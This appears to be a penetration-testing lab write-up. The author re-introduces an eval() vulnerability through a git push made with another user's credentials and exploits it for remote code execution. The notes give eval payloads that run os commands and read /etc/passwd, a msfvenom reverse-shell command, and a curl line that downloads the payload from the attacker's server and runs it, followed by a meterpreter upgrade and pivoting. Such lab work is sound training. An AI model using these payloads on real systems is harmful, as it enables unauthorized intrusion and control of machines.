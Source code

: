 # Exploitation

## Git repo exploitation

Then I looked for previous commit messages

![[vulnerable_code_version.png]]

The developer found out about the 
```python
eval()
```

Function and fixed the problem, so let's try to edit the *API.py* file to bypass the validations and make it vulnerable.

![[bypass.png]]

Then commit and push the changes with *jeremy's* credentials.

![[add_origin.png]]

The push

![[git_push.png]]

The check if the code was changed by getting the **API.py** file from the server.


![[bypass.png]]

The changes are reflected now let's exploit the RCE.

## RCE exploitation

Now that the code is vulnerable again let's try to run simple commands before getting a reverse shell.

I looked for payloads for the eval function. But the response was always 0. Then I tried the bash sleep function to see if it affected the response time.

Payload:

```python
__import__('os').system('$command')
```

So i tried with

```python
__import__('os').system('sleep 5')
```

And in the and i confirmed the RCE

![[blind_RCE.png]]

# More commands

Lets try to read the /etc/passwd file, for that I used the following payload


```python
open('/etc/passwd').read()
```

The command execute successfully

![[more_cmd.png]]

# Getting a reverse shell

Let's try to enumerate the tools available on the target. For that I tried to get the version of different tools and check the responses.

## Python2

From the [[Information gathering target 1]] phase on port 8000 the Werkzeug service is running for Python 2. So it's almost sure that Python2 is available on the target. Let's confirm it.

![[python_enum.png]]

I tried running the command locally as the provided environment has it.

![[confirmation.png]]


Let's try with ncat to see what happens.

## Ncat

![[ncat_enum.png]]

I tried a local test with a non-existing binary to check the output

![[local_test.png]]

So if  the response is zero there's a high probability for the binary to be installed on the target.

## Curl

Following the previous steps

![[curl_enum.png]]


# Reverse shell payload file transfer

Knowing that curl is available, I tried to transfer a reverse shell payload file to the target via CURL. 

## Generate the payload with msfvenom

Lets use **msfvenom** to generate a reverse shell payload. I know the machine runs Linux (it can be confirmed using Nmap) so generate payload using the following command.

```bash

msfvenom -p linux/x64/shell_reverse_tcp lhost=192.35.185.2 lport=4444 -f elf -o r

```

The output is the **r** file containing a **linux/x64/shell_reverse_tcp** payload.

## Set up a HTTP server on the attacker machine

The provided box have Python3 installed I used it as follows:

```bash
python3 -m http.server

```

That deployed a HTTP server on port 8000

![[python_http_server.png]]

## Transfer the payload

Now abusing the RCE vulnerability transfer the reverse shell payload:

![[curl_transfer.png]]


```python
__import__('os').system('curl http://192.35.185.2:8000/r -o /tmp/r')
```


The command was executed, because the log on the python http server shows a get request to the file.

IMPORTANT: transfer the file to a writable location. Common locations writable for all user are ***/tmp** or **/var/tmp**

![[target_get.png]]

Now make the file executable

```bash
chmod +x /tmp/r
```

![[make_executable.png]]


Set up a Metasploit handler for the payload 

![[msf_handler.png]]

Execute the reverse shell.

```python
__import__('os').system('/tmp/r')
```

The handler should receive the shell connection. Even tough for me it didn't work at first but after making it executable and executing it again it worked.

Given access to target 1 [[Exploitation target 1]] lets upgrade the spawned shell to a meterpreter as follows:

![[shell_2_meterpreter.png]]

Let's try to capture target 1 flag

![[flag_1.png]]

I found it, let's enumerate further the machine.


I checked the machine's network interfaces.

![[new_network.png]]

Let's try to apply pivoting techniques.

[[Pivoting target 1]]
